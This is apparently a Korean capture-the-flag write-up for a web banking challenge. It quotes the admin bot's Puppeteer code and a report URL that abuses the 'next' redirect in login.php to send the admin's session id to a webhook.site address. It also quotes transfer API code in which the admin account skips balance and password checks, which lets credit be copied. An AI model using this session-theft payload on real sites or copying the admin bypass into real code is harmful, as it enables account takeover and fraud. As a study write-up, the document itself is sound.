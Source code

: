 `bot.js` 를 보면 report 페이지에서 입력한 url 주소로 request 하는 것을 알 수 있다.

그리고 이를 통해 localhost에서 admin 계정으로 request를 보낸다는 것을 어렴풋이 짐작할 수 있다.

```jsx
(async () => {
  const browser = await puppeteer.launch({
	  headless: false,
	  args: ['--no-sandbox', '--disable-setuid-sandbox'],
  });

  const page = await browser.newPage();
  page.setDefaultNavigationTimeout(5000);

  // Redacted: some small login stuff :D
  await page.goto(url);
  await page.waitForTimeout(1500);
  await browser.close();
})();
```

`login.php`파일에서 일어나는 CSRF 취약점을 이용해 아래와 같은 payload로 report하면 admin의 session id를 얻을 수 있다.

```
http://localhost/login.php?next=https://webhook.site/135b402f-7c9a-47c9-92c4-58ac33d2c8dd
```

CSRF 취약점을 통해 admin의 sessionid를 얻은 것을 볼 수 있다.

![Untitled](Untitled%201.png)

이제 credit 값이 100,000,000이 넘어야된다.

`transfer.php`를 보면 credit을 다른 계정으로 전송하는 기능을 가지고 있는데, 실제로 동작하는 부분인 `api/trasfer.php`를 보면 다음과 같다.

`userid`가 admin인 사용자는 자신에게 credit을 전송할 수 있다. 즉, 돈 복사가 가능하다는 것이다. 그리고 admin의 secondry pw도 알 필요가 없어 transfer 페이지를 이용하여 credit의 값을 올릴 수 있다.

```php
$.post("/api/transfer.php", {
    "amount": amount,
    "recv": recv,
    "token": token,
    "pow": pow,
},
```

```php
if(check_pow($USER_DATA["pow"])) {
    $am = (float)$USER_DATA["amount"];
    $rc = bin2hex($USER_DATA["recv"]);
    $token = sha1($USER_DATA["token"]);

    if($user["userid"] !== "admin") { //admin can copy the money
        if ($am < 5.00) {
            error("Minimum transfer is 5 BFL");
        }

        if ($user["credit"] < $am + 0.05) {
            error("You can't transfer over ".($user["credit"]-0.5)." BFL");
        }

        if ($token !== $user["token"]) {
            error("Wrong secondary pw");
        }
        
        mysqli_query($conn, "update user set credit = credit - ($am + 0.5) where userid = '".bin2hex($user["userid"])."';");
    }
```